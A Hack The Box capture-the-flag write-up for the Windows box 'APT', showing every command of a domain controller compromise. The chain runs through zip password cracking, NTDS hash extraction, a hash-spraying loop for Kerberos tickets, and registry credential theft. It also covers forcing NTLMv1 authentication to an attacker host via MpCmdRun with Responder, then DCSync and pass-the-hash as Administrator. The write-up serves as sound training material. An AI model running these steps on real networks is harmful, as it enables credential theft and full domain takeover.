 ---
layout: menu
title: "HTB APT"
description: "10.10.10.213 | 50 pts"
header-img: "boxes/screenshots/66_APT/APT.png"
tags: [hackthebox, htb, boot2root, writeup, windows, APT, apt]
---

:filesdir: /boxes/files/66_APT/
:imagesdir: /boxes/screenshots/66_APT/
:page-liquid:
:source-highlighter: rouge

+++<h1 style="color:red">+++ HTB APT (10.10.10.213) +++</h1>+++

---

:toc: 
:toc-title: TABLE OF CONTENTS

---

== PART 1 : INITIAL RECON

=== 1.1 NMAP scan

____
[source,shell,subs="verbatim,quotes"]
----
$ nmap --min-rate 3000 -oN nmap-tcp.initial -p- -Pn -T4 -v 10.10.10.213
  
  Host is up.
  All 65535 scanned ports on 10.10.10.213 are filtered

  Read data files from: /usr/bin/../share/nmap
  Nmap done: 1 IP address (1 host up) scanned in 65.54 seconds

----
____

No open port was found but scanning using IPv6 might yield a different result. But first, the IPv6 of the machine needs to be determined. It could be done using +++<span style="color:orange">+++ link:https://github.com/mubix/IOXIDResolver[IOXIDResolver] +++</span>+++:

____
[source,shell,subs="verbatim,quotes"]
----
$ git clone https://github.com/mubix/IOXIDResolver.git

$ python3 IOXIDResolver/IOXIDResolver.py -t 10.10.10.213

  [*] Retrieving network interface of 10.10.10.213
  Address: apt
  Address: 10.10.10.213
  Address: dead:beef::b885:d62a:d679:573f
  Address: dead:beef::cda5:800b:148e:6594
----
____

Adding the recovered IPv6 addresses to the +++<span style="color:orange">+++ `*/etc/hosts*` +++</span>+++ file then attempting to scan using the new hostname:

____
[source,console,subs="verbatim,quotes"]
----
# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
##dead:beef::b885:d62a:d679:573f	apt.htb##
----

[source,shell,subs="verbatim,quotes"]
----
$ nmap -6 --min-rate 3000 -oN nmap6-tcp.initial -p- -Pn -T4 -v apt.htb

  PORT      STATE SERVICE
  53/tcp    open  domain
  80/tcp    open  http
  135/tcp   open  msrpc
  389/tcp   open  ldap
  445/tcp   open  microsoft-ds
  464/tcp   open  kpasswd5
  593/tcp   open  http-rpc-epmap
  636/tcp   open  ldapssl
  5985/tcp  open  wsman
  9389/tcp  open  adws
  47001/tcp open  winrm

$ nmap -6 -oN nmap6-tcp -p 53,80,135,389,445,464,593,636,5985,9389,47001 -sC -sV -v apt.htb

  PORT      STATE SERVICE      VERSION
  53/tcp    open  domain       Simple DNS Plus
  80/tcp    open  http         Microsoft IIS httpd 10.0
  | http-methods: 
  |   Supported Methods: OPTIONS TRACE GET HEAD POST
  |_  Potentially risky methods: TRACE
  |_http-server-header: Microsoft-IIS/10.0
  |_http-title: Gigantic Hosting | Home
  135/tcp   open  msrpc        Microsoft Windows RPC
  389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
  | ssl-cert: Subject: commonName=apt.htb.local
  | Subject Alternative Name: DNS:apt.htb.local
  | Issuer: commonName=apt.htb.local
  | Public Key type: rsa
  | Public Key bits: 2048
  | Signature Algorithm: sha256WithRSAEncryption
  | Not valid before: 2020-09-24T07:07:18
  | Not valid after:  2050-09-24T07:17:18
  | MD5:   c743 dd92 e928 50b0 aa86 6f80 1b04 4d22
  |_SHA-1: f677 c290 98c0 2ac5 8575 7060 683d cdbc 5f86 5d45
  |_ssl-date: 2021-04-09T11:25:05+00:00; 0s from scanner time.
  445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
  464/tcp   open  kpasswd5?
  593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
  636/tcp   open  ssl/ldap     Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
  | ssl-cert: Subject: commonName=apt.htb.local
  | Subject Alternative Name: DNS:apt.htb.local
  | Issuer: commonName=apt.htb.local
  | Public Key type: rsa
  | Public Key bits: 2048
  | Signature Algorithm: sha256WithRSAEncryption
  | Not valid before: 2020-09-24T07:07:18
  | Not valid after:  2050-09-24T07:17:18
  | MD5:   c743 dd92 e928 50b0 aa86 6f80 1b04 4d22
  |_SHA-1: f677 c290 98c0 2ac5 8575 7060 683d cdbc 5f86 5d45
  |_ssl-date: 2021-04-09T11:25:05+00:00; 0s from scanner time.
  5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
  |_http-server-header: Microsoft-HTTPAPI/2.0
  |_http-title: Not Found
  9389/tcp  open  mc-nmf       .NET Message Framing
  47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
  |_http-server-header: Microsoft-HTTPAPI/2.0
  |_http-title: Not Found
  Service Info: Host: APT; OS: Windows; CPE: cpe:/o:microsoft:windows
  
  Host script results:
  |_clock-skew: mean: -11m59s, deviation: 26m49s, median: 0s
  | smb-os-discovery: 
  |   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
  |   Computer name: apt
  |   NetBIOS computer name: APT\x00
  |   Domain name: htb.local
  |   Forest name: htb.local
  |   FQDN: apt.htb.local
  |_  System time: 2021-04-09T12:24:49+01:00
  | smb-security-mode: 
  |   account_used: <blank>
  |   authentication_level: user
  |   challenge_response: supported
  |_  message_signing: required
  | smb2-security-mode: 
  |   2.02: 
  |_    Message signing enabled and required
  | smb2-time: 
  |   date: 2021-04-09T11:24:51
  |_  start_date: 2021-04-09T07:46:49

----
____

Open ports have now been determined and it seems like the machine is part of an Active Directory.

=== 1.2 Updating /etc/hosts

____
[source,console,subs="verbatim,quotes"]
----
# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
dead:beef::b885:d62a:d679:573f	##apt.htb.local HTB.local## apt.htb
----
____

This might be essential when enumerating/connecting to the machine.

---

== PART 2 : PORT ENUMERATION

=== TCP PORT 80 : HTTP

____
image::80_landing_page.png[GiganticHosting]
____

=== TCP PORT 445 : SMB

Enumerating available shares from anonymous login:

____
[source,shell,subs="verbatim,quotes"]
----
$ smbclient -L \\\\apt.htb -N                 

  Anonymous login successful

  	  Sharename       Type      Comment
  	  ---------       ----      -------
	  ##backup          Disk##      
	  IPC$            IPC       Remote IPC
	  NETLOGON        Disk      Logon server share 
	  SYSVOL          Disk      Logon server share 
  apt.htb is an IPv6 address -- no workgroup available

$ smbclient \\\\apt.htb\\backup -N

  smb: \> dir
    .                                   D        0  Thu Sep 24 03:30:52 2020
    ..                                  D        0  Thu Sep 24 03:30:52 2020
    ##backup.zip##                          A 10650961  Thu Sep 24 03:30:32 2020
----
____

There is a +++<span style="color:orange">+++backup.zip+++</span>+++ file publicly available in the +++<span style="color:orange">+++backup+++</span>+++ share.

____
[source,shell,subs="verbatim,quotes"]
----
$ smbget -a -R smb://apt.htb/backup/backup.zip

  Using workgroup WORKGROUP, guest user
  smb://apt.htb/backup/backup.zip
  Downloaded 10.16MB in 37 seconds

$ unzip backup.zip

  Archive:  backup.zip
     creating: Active Directory/
  ##[backup.zip] Active Directory/ntds.dit password:##

$ fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt backup.zip

  PASSWORD FOUND!!!!: pw == iloveyousomuch
----
____

The +++<span style="color:orange">+++backup.zip+++</span>+++ file was successfully downloaded from the file share but trying to extract the contents requires a password. Luckily, the password was susceptible to a dictionary attack which returned the password as +++<span style="color:orange">+++iloveyousomuch+++</span>+++. Successfully extracting the contents reveals the following files:

____
[source,shell,subs="verbatim,quotes"]
----
$ unzip backup.zip

  Archive:  backup.zip
  [backup.zip] Active Directory/ntds.dit password: ##iloveyousomuch##
    inflating: Active Directory/ntds.dit  
    inflating: Active Directory/ntds.jfm  
     creating: registry/
    inflating: registry/SECURITY       
    inflating: registry/SYSTEM

$ find . -type f -exec file {} + 2>/dev/null | grep -v backup

  ./Active Directory/ntds.dit: Extensible storage engine DataBase, version 0x620, checksum 0x6f146ad6, page size 8192, Windows version 10.0
  ./Active Directory/ntds.jfm: data
  ./registry/SECURITY:         MS Windows registry file, NT/2000 or above
  ./registry/SYSTEM:           MS Windows registry file, NT/2000 or above
----
____

There's an +++<span style="color:orange">+++ntds.dit+++</span>+++ file which is a database file storing Active Directory data especially user objects and password hashes; however, it's encrypted. Along with this are Windows Registry files.

---

=== PART 3: EXPLOITATION

==== 3.1 Search for valid users
____
[source,shell,subs="verbatim,quotes"]
----
$ impacket-secretsdump -ntds Active\ Directory/ntds.dit -system registry/SYSTEM -outputfile user_hashes.txt LOCAL

$ ls -l

  -rwxrwxrwx 1 root root   176132 xxx  x xx:xx  user_hashes.txt.ntds
  -rwxrwxrwx 1 root root      136 xxx  x xx:xx  user_hashes.txt.ntds.cleartext
  -rwxrwxrwx 1 root root   433995 xxx  x xx:xx  user_hashes.txt.ntds.kerberos
----
____

The extraction is only possible since the password encryption key used for +++<span style="color:orange">+++ntds.dit+++</span>+++ is encrypted using the BOOTKEY which could be found on the SYSTEM registry hive. Otherwise, if the SYSTEM hive is not available, the bootkey could be provided as an argument to +++<span style="color:orange">+++secretsdump+++</span>+++ module of impacket.

____
[source,shell,subs=""]
----
$ cat user_hashes.txt.ntds | head -n 1

  Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::

$ cat user_hashes.txt.ntds | head -n 1 | cut -d':' -f1

  Administrator

$ cat user_hashes.txt.ntds | cut -d':' -f1 > ../usernames.txt

$ ./kerbrute_linux_amd64 userenum -d htb.local --dc apt.htb.local -o kerbrute.txt -v usernames.txt
      __             __               __     
     / /_____  _____/ /_  _______  __/ /____ 
    / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
   / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
  /_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

  Version: v1.0.3 (9dad6e1) - xx/xx/xx - Ronnie Flathers @ropnop

  xxxx/xx/xx xx:xx:xx >  Using KDC(s):
  xxxx/xx/xx xx:xx:xx >  	apt.htb.local:88
  [...omitted...]

$ cat kerbrute.txt | grep VALID

  xxxx/xx/xx xx:xx:xx >  [+] VALID USERNAME:	 Administrator@htb.local
  xxxx/xx/xx xx:xx:xx >  [+] VALID USERNAME:	 APT$@htb.local
  xxxx/xx/xx xx:xx:xx >  [+] VALID USERNAME:	 henry.vinson@htb.local
----
____

The usernames were trimmed from the password hashes recovered in +++<span style="color:orange">+++ntds.dit+++</span>+++ via `*impacket-secretsdump*`. The usernames were then passed through `*kerbrute*` to check if they were still valid/active users in the domain controller. As for that, three users were found -- +++<span style="color:orange">+++Administrator+++</span>+++, +++<span style="color:orange">+++APT$+++</span>+++, and +++<span style="color:orange">+++henry.vinson+++</span>+++.

=== 3.2 Generating a Kerberos Ticket for henry.vinson

The hashes found for the valid users doesn't seem to work when attempting to login via winrm. Since this box seems to be part of an Active Directory, maybe forging a kerberos ticket will work for authenticating into the machine. 

____
[source,shell,subs="verbatim,quotes"]
----
$ cat user_hashes.txt.ntds | grep henry.vinson

  henry.vinson:3647:aad3b435b51404eeaad3b435b51404ee:2de80758521541d19cabba480b260e8f:::

$ cat user_hashes.txt.ntds | grep henry.vinson | awk -F':' '{printf "%s:%s\n",$3,$4}'

  aad3b435b51404eeaad3b435b51404ee:2de80758521541d19cabba480b260e8f

$ cat user_hashes.txt.ntds | awk -F':' '{printf "%s:%s\n",$3,$4}' | sort | uniq > ../hashes.txt

$ for i in $(cat hashes.txt); do echo $i; attempt=$(impacket-getTGT HTB.local/henry.vinson@apt.htb -hashes $i); if ! [[ $attempt == *"SessionError"* ]]; then echo "HASH FOUND: [$i]"; echo $attempt; break; fi; done

  [...omitted...]
  HASH FOUND: [aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb]
  Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

  [*] Saving ticket in henry.vinson@apt.htb.ccache

$ klist -c henry.vinson@apt.htb.ccache

  Ticket cache: FILE:henry.vinson@apt.htb.ccache
  Default principal: henry.vinson@HTB.LOCAL

  Valid starting       Expires              Service principal
  xx/xx/xxxx xx:xx:xx  xx/xx/xxxx xx:xx:xx  krbtgt/HTB.LOCAL@HTB.LOCAL
  	  renew until xx/xx/xxxx xx:xx:xx
----
____

The shell script below was the one-liner used to brute force the generation of the ticket:
____
[source,sh,subs="verbatim,quotes"]
----
for i in $(cat hashes.txt); do 
    echo $i; 
    attempt=$(impacket-getTGT HTB.local/henry.vinson@apt.htb -hashes $i); 
    
    if ! [[ $attempt == *"SessionError"* ]]; then 
        echo "HASH FOUND: [$i]"; 
        echo $attempt;
        break; 
    fi; 
done
----
____

A password spray (in this case, hashes extracted from ntds.dit were used) was attempted for the user, +++<span style="color:orange">+++henry.vinson+++</span>+++, and one of the hashes (not his own) was found to be able to forge a krbtgt ticket. However, this still does not seem to work for authentication via WinRM.

=== 3.3 Dumping HKEY_USERS 

The HKU registry hive contains all configurations set for all active users.
____
[source,shell,subs="verbatim,quotes"]
----
$ export KRB5CCNAME=henry.vinson@apt.htb.ccache

$ env | grep KRB5
  
  KRB5CCNAME=henry.vinson@apt.htb.ccache

$ impacket-reg -k apt.htb.local query -keyName HKU -s > registry.txt
----
____

In this case, since there is already a cached ticket for henry.vinson, all contents from his user registry hive will be extracted.

____
[source,shell,subs="verbatim,quotes"]
----
$ cat registry.txt | grep -i -A5 -B5 -E 'henry'

  [...omitted...]
  \Software\GiganticHostingManagementSystem\
	        ##UserName	REG_SZ	 henry.vinson_adm##
	        ##PassWord	REG_SZ	 G1#Ny5@2dvht##
  [...omitted...]
----
____

And within the extracted information are stored credentials for the deployed service, `*GiganticHostingManagementSystem*`.

---

== PART 4 : GENERATING A USER SHELL (henry.vinson_adm)

____
[source,shell,subs="+macros,verbatim,quotes"]
----
$ evil-winrm -i apt.htb -u henry.vinson_adm -p 'G1#Ny5@2dvht' --no-colors

PS +++<span style="color:#779ECB">C:\Users\henry.vinson_adm\Documents></span>+++ whoami

  htb\henry.vinson_adm

PS +++<span style="color:#779ECB">C:\Users\henry.vinson_adm\Documents></span>+++ ipconfig

  Windows IP Configuration


  Ethernet adapter Ethernet:

     Connection-specific DNS Suffix  . :
     IPv6 Address. . . . . . . . . . . : dead:beef::3d05:a1a8:4a51:c2fe
     IPv6 Address. . . . . . . . . . . : dead:beef::b885:d62a:d679:573f
     Link-local IPv6 Address . . . . . : fe80::3d05:a1a8:4a51:c2fe%5
     IPv4 Address. . . . . . . . . . . : 10.10.10.213
     Subnet Mask . . . . . . . . . . . : 255.255.255.0
     Default Gateway . . . . . . . . . : dead:beef::1
                                         fe80::250:56ff:feb9:75a0%5
                                         10.10.10.2

PS +++<span style="color:#779ECB">C:\Users\henry.vinson_adm\Documents></span>+++ dir ..\Desktop

      Directory: C:\Users\henry.vinson_adm\Desktop


  Mode                LastWriteTime         Length Name
  ----                -------------         ------ ----
  -ar---       xx/xx/xxxx  xx:xx XX             34 user.txt
----
____

It seems like the reason why the other users cannot authenticate via WinRM even though a valid hash has been found is that they are not part of the +++<span style="color:orange">+++Remote Management Users+++</span>+++ group:

____
[source,shell,subs="+macros,verbatim,quotes"]
----
PS +++<span style="color:#779ECB">C:\Users\henry.vinson_adm\Documents></span>+++ net localgroup "Remote Management Users"

  Alias name     Remote Management Users
  Comment        Members of this group can access WMI resources over management protocols (such as WS-Management via the Windows Remote Management service). This applies only to WMI namespaces that grant access to the user.

  Members

  -------------------------------------------------------------------------------
  henry.vinson_adm
----
____

---

== PART 5 : PRIVILEGE ESCALATION (henry.vinson_adm -> Administrator)

=== 5.1 The console history of henry.vinson_adm

Checking the console history of the current user:
____
[source,shell,subs="+macros,verbatim,quotes"]
----
PS +++<span style="color:#779ECB">C:\Users\henry.vinson_adm\Documents></span>+++ cd ..\AppData

PS +++<span style="color:#779ECB">C:\Users\henry.vinson_adm\AppData></span>+++ type Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
----
____
____
[source,ps1,subs="verbatim,quotes"]
----
$Cred = get-credential administrator
invoke-command -credential $Cred -computername localhost -scriptblock {Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" lmcompatibilitylevel -Type DWORD -Value 2 -Force}
----
____

The DWORD value for `*lmcompatibilitylevel*` was set to `*2*` and based on the Microsoft documentation for LAN Manager authentication level:

____
[cols="1,3,8"]
|===
|DWORD |Setting |Description

| 2
| Send NTLM response only
| Client devices use NTLMv1 authentication, and they use NTLMv2 session security if the server supports it. Domain controllers accept LM, NTLM, and NTLMv2 authentication.
|===
____

With this the machine should only repond with NTLMv1 hashes during authentication.

=== 5.2 Intercepting NTLMv1 Hashes

Setting up `*responder*` with a custom challenge, "1122334455667788"
____
[source,console,subs=""]
----
$ cat /etc/responder/Responder.conf | grep -i challenge

  ; Custom challenge. 
  ; Use "Random" for generating a random challenge for each requests (Default)
  Challenge = 1122334455667788

$ sudo responder -I tun0 --lm

                                           __
    .----.-----.-----.-----.-----.-----.--|  |.-----.----.
    |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
    |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                     |__|

             NBT-NS, LLMNR & MDNS Responder 3.0.2.0

    Author: Laurent Gaffie (laurent.gaffie@gmail.com)
    To kill this script hit CTRL-C

    [...omitted...]
    [+] Servers:
        [...omitted...]
        SMB server                 [ON]
    [...omitted...]

    [+] Poisoning Options:
        [...omitted...]
        Force LM downgrade         [ON]
    [...omitted...]

    [+] Generic Options:
        Responder NIC              [tun0]
        Responder IP               [10.10.14.11]
        Challenge set              [1122334455667788]
    [...omitted...]
----
____

Then forcing the target machine to force NTLM authentication:

____
[source,shell,subs="+macros,verbatim,quotes"]
----
PS +++<span style="color:#779ECB">C:\Users\henry.vinson_adm\AppData></span>+++ cd "C:\ProgramData\Microsoft\Windows Defender\platform"

PS +++<span style="color:#779ECB">C:\ProgramData\Microsoft\Windows Defender\platform></span>+++ dir


      Directory: C:\ProgramData\Microsoft\Windows Defender\platform


  Mode                LastWriteTime         Length Name
  ----                -------------         ------ ----
  d-----       11/10/2020  11:09 AM                4.18.2010.7-0
  d-----        3/17/2021   3:13 PM                4.18.2102.4-0

PS +++<span style="color:#779ECB">C:\ProgramData\Microsoft\Windows Defender\platform></span>+++ cd 4.18.2010.7-0

PS +++<span style="color:#779ECB">C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0></span>+++ .\MpCmdRun.exe -Scan -ScanType 3 -File \\10.10.14.11\file.txt
----
____

Looking back in the running `*responder*`, the NTLMv1 hash for the computer account was retrieved:

____
[source,console,subs="verbatim,quotes"]
----
[SMB] NTLMv1 Client   : 10.10.10.213
[SMB] NTLMv1 Username : HTB\APT$
[SMB] NTLMv1 Hash     : APT$::HTB:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384:1122334455667788
[...omitted...]
----
____
____
[source,shell,subs="+macros,verbatim,quotes"]
----
PS +++<span style="color:#779ECB">C:\Users\henry.vinson_adm\Documents></span>+++ Get-ADComputer "APT"

  DistinguishedName : CN=APT,OU=Domain Controllers,DC=htb,DC=local
  DNSHostName       : apt.htb.local
  Enabled           : True
  Name              : APT
  ObjectClass       : computer
  ObjectGUID        : a78acf4d-42b5-49bc-9855-2389a80e726d
  SamAccountName    : APT$
  SID               : S-1-5-21-2993095098-2100462451-206186470-1001
  UserPrincipalName :
----
____


Going to link:https://crack.sh/get-cracking/[crack.sh] and submitting the value, +++<span style="color:orange">+++NTHASH:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384+++</span>+++, will return the following if the hash was successfully cracked:

____
[source,console,subs="verbatim,quotes"]
----
Token: $NETNTLM$1122334455667788$95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384
Key: d167c3238864b12f5f82feae86a7f798
----
____

=== 5.3 Running impacket-secretsdump to obtain password hashes

____
[source,shell,subs="verbatim,quotes"]
----
$ impacket-secretsdump -hashes aad3b435b51404eeaad3b435b51404ee:d167c3238864b12f5f82feae86a7f798 'HTB.local/APT$@apt.htb'     

  Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

  [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
  [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
  [*] Using the DRSUAPI method to get NTDS.DIT secrets
  ##Administrator:500:aad3b435b51404eeaad3b435b51404ee:c370bddf384a691d811ff3495e8a72e2:::##
  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  krbtgt:502:aad3b435b51404eeaad3b435b51404ee:738f00ed06dc528fd7ebb7a010e50849:::
  DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  henry.vinson:1105:aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb:::
  henry.vinson_adm:1106:aad3b435b51404eeaad3b435b51404ee:4cd0db9103ee1cf87834760a34856fef:::
  APT$:1001:aad3b435b51404eeaad3b435b51404ee:d167c3238864b12f5f82feae86a7f798:::
  [*] Kerberos keys grabbed
  Administrator:aes256-cts-hmac-sha1-96:72f9fc8f3cd23768be8d37876d459ef09ab591a729924898e5d9b3c14db057e3
  Administrator:aes128-cts-hmac-sha1-96:a3b0c1332eee9a89a2aada1bf8fd9413
  Administrator:des-cbc-md5:0816d9d052239b8a
  krbtgt:aes256-cts-hmac-sha1-96:b63635342a6d3dce76fcbca203f92da46be6cdd99c67eb233d0aaaaaa40914bb
  krbtgt:aes128-cts-hmac-sha1-96:7735d98abc187848119416e08936799b
  krbtgt:des-cbc-md5:f8c26238c2d976bf
  henry.vinson:aes256-cts-hmac-sha1-96:63b23a7fd3df2f0add1e62ef85ea4c6c8dc79bb8d6a430ab3a1ef6994d1a99e2
  henry.vinson:aes128-cts-hmac-sha1-96:0a55e9f5b1f7f28aef9b7792124af9af
  henry.vinson:des-cbc-md5:73b6f71cae264fad
  henry.vinson_adm:aes256-cts-hmac-sha1-96:f2299c6484e5af8e8c81777eaece865d54a499a2446ba2792c1089407425c3f4
  henry.vinson_adm:aes128-cts-hmac-sha1-96:3d70c66c8a8635bdf70edf2f6062165b
  henry.vinson_adm:des-cbc-md5:5df8682c8c07a179
  APT$:aes256-cts-hmac-sha1-96:4c318c89595e1e3f2c608f3df56a091ecedc220be7b263f7269c412325930454
  APT$:aes128-cts-hmac-sha1-96:bf1c1795c63ab278384f2ee1169872d9
  APT$:des-cbc-md5:76c45245f104a4bf
  [*] Cleaning up... 
----
____

=== 5.4 Shell as Administrator

____
[source,shell,subs="+macros,verbatim,quotes"]
----
$ evil-winrm -i apt.htb -u Administrator -H c370bddf384a691d811ff3495e8a72e2 --no-colors

PS +++<span style="color:#779ECB">C:\Users\Administrator\Documents></span>+++ whoami

  htb\administrator

PS +++<span style="color:#779ECB">C:\Users\Administrator\Documents></span>+++ dir ..\Desktop


      Directory: C:\Users\Administrator\Desktop


  Mode                LastWriteTime         Length Name
  ----                -------------         ------ ----
  -ar---       xx/xx/xxxx  xx:xx XX             34 root.txt


PS +++<span style="color:#779ECB">C:\Users\Administrator\Documents></span>+++ ipconfig

  Windows IP Configuration


  Ethernet adapter Ethernet:

     Connection-specific DNS Suffix  . :
     IPv6 Address. . . . . . . . . . . : dead:beef::3d05:a1a8:4a51:c2fe
     IPv6 Address. . . . . . . . . . . : dead:beef::b885:d62a:d679:573f
     Link-local IPv6 Address . . . . . : fe80::3d05:a1a8:4a51:c2fe%5
     IPv4 Address. . . . . . . . . . . : 10.10.10.213
     Subnet Mask . . . . . . . . . . . : 255.255.255.0
     Default Gateway . . . . . . . . . : dead:beef::1
                                         fe80::250:56ff:feb9:75a0%5
                                         10.10.10.2
----
____

---
---

== REFERENCES
- https://stealthbits.com/blog/extracting-password-hashes-from-the-ntds-dit-file/
- https://adsecurity.org/?p=2398
- https://www.lifewire.com/hkey-users-2625903
- https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-lan-manager-authentication-level 
- https://book.hacktricks.xyz/windows/active-directory-methodology/printers-spooler-service-abuse